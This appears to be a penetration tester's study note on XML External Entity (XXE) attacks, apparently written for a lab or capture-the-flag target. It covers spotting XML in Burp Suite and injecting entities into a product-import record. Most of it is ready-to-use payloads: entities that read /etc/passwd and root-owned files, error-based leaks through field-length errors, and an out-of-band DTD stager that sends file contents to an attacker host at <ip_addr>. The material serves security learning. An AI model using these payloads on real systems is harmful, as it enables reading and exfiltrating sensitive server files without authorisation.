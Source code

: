
> [!info]
> This note is still in development.

## Overview
---
An **XML External Entity** attack is a type of attack against an application that parses XML input and allows XML entities. XML entities can be used to tell the XML parser to fetch specific content on the server.

- Reference(s):
	- [PayloadsAllTheThings: XXE Injection](https://swisskyrepo.github.io/PayloadsAllTheThings/XXE%20Injection/)
## Discovery
---
There are several ways we can import or export XML. Not all applications that handle XML data will have such prominent pages highlighting XML data sources. However, due to XML's natural structure and tags (using "<" and ">"), we can easily identify XML data within HTTP requests or responses with Burp Suite.

![[Pasted image 20231024134758.png]]

Preface entity-engine / root tag with XXE code we intend to inject.
```xml
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe "Vulnerable to XXE">
]>
```

![[Pasted image 20231024142508.png]]

Within the entity-engine code, have a standard item, but with a single field injected.
```xml
<Product 
  createdStamp="2021-06-04 08:15:49.363" 
  createdTxStamp="2021-06-04 08:15:48.983" 
  description="Giant Widget with Wheels" 
  internalName="Giant Widget variant explosion" 
  isVariant="N" 
  isVirtual="Y" 
  largeImageUrl="/images/products/WG-9943/large.png" 
  lastUpdatedStamp="2021-06-04 08:16:18.521" 
  lastUpdatedTxStamp="2021-06-04 08:16:18.258" 
  primaryProductCategoryId="202" 
  productId="XXE-0001" 
  productName="Giant Widget with variant explosion" 
  productTypeId="FINISHED_GOOD" 
  productWeight="22.000000" 
  quantityIncluded="10.000000" 
  smallImageUrl="/images/products/WG-9943/small.png"   
  virtualVariantMethodEnum="VV_VARIANTTREE"
>
  <longDescription>&xxe;</longDescription>
</Product>
```

If the XXE was successful, we should be able to find an new object with our XXE payload.

![[Pasted image 20231024140854.png]]

## Exploitation
---
**Variable to inject:**

```xml
<field_name>%xxe;</field_name>
```

**Payloads to inject:**

- Inject String
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE data [
    <!ELEMENT data ANY >
    <!ENTITY xxe1 "Vulnerable to XXE!!!">
    <!ENTITY xxe2 "This is a second inject!">
]>
```

- Local File Inclusion
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE data [
    <!ELEMENT data ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
```

- Out-of-Band pointing to hosted payload (`external.dtd`).
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE oob [
    <!ENTITY % base SYSTEM "http://<ip_addr>/external.dtd"> 
    %base;
    %external;
    %exfil;
]>
```

- Hosted Payload (`external.dtd`)
```
<!ENTITY % content SYSTEM "file:///etc/passwd">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://<ip_addr>/xxe?content=%content;'>" >
```

#### Error-Based Exploitation

In scenarios where we can't interact directly with the created object, we may be able to return sensitive information within error messages, assuming the application returns verbose error messages.

- Syntax error when attempting to inject a timestamp indicates that Java is being used.
```
  <createdStamp>&xxe;</createdStamp>
  <longDescription>Bruh</longDescription>
```
![[Pasted image 20231024143609.png]]

- Moved a field out of the body and attempted a field length error (`/etc/password` LFI payload)
```
  <description>&xxe;</description>
  <createdStamp>2021-06-04 08:15:49</createdStamp>
  <longDescription>Bruh</longDescription>
```

- If a file is not long enough to cause an error, we can concatenate strings to print the flag followed by excessive data to surpass field length.
```
<!DOCTYPE data [
    <!ELEMENT data ANY >
    <!ENTITY xxe1 SYSTEM "file:///root/error.txt">
    <!ENTITY xxe2 SYSTEM "file:///etc/passwd">
]>
<root>
    <description>&xxe1;&xxe2;</description>
</root>
```
![[Pasted image 20231024145210.png]]

#### Out-of-Band Exploitation

In scenarios where we can't interact directly with the created object nor view verbose error messages, we may be able to return information via an out-of-band attack that leverages the functionality that loads the external resources.

- For this attack to work, we will need to create and host our own DTD file (external.dtd) that contains two entities. We will need to use parameter entities because we need the entities to be processed within the DTD so that they can impact each other.

external.dtd
```
<!ENTITY % content SYSTEM "file:///etc/passwd">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://<ip_addr>/xxe?content=%content;'>" >
```

- Out-of-Band stager pointing to hosted payload.
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE oob [
    <!ENTITY % base SYSTEM "http://<ip_addr>/external.dtd"> 
    %base;
    %external;
    %exfil;
]>
```
![[Pasted image 20231024152843.png]]